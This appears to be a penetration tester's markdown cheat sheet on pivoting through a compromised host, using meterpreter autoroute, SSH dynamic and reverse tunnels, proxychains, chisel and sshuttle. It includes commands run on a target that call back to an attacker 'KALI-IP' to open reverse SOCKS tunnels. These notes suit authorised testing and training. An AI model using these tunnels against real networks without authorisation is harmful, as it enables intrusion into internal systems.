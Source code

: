 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## meterpreter

```bash
# to print existing routes 
autoroute -p

run autoroute [-s IP/CIDR]
[OR]
use post/multi/manage/autoroute
# use auxiliary/server/socks_proxy for global 
```

## using ssh:

### Forward tunnel (outgoing)

```bash
ssh user@IP -D PORT
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Reverse tunnel (incoming)

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -fN -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains

### /etc/proxychains4.conf

```bash
# add line for socks4/5 proxy 
[socks4|socks5] 127.0.0.1 6900

# comment out proxy_dns to avoid nmap hanging
```

Now, run any command using `$ proxychains4 [command]`

### proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900

## chisel

### Reverse Proxy

NOTE: configure proxychains using `socks5 IP PORT`.

```bash
# server on kali
chisel server -p 8000 --reverse

# on target
# tunnel using chisel on kali:1080
chisel client KALI_IP:8000 R:socks
```

### Forward Proxy

```bash
# server on target
chisel server -p 8000 --socks5

# on kali
chisel client TARGET_IP:8000 TUNNEL_PORT:socks
```

## sshuttle

* **REQUIREMENTS:**
    * Works only on linux targets
    * SSH access to target
    * Python on target (static binary works)

```bash
sshuttle -r USER@TARGET_IP [SUBNET/CIDR | -N] [--ssh-cmd "ssh -i KEY"] -x TARGET_IP
# -N: auto identify based on targers routing table
# -x: used to exclude current box from forward all subnet traffic
```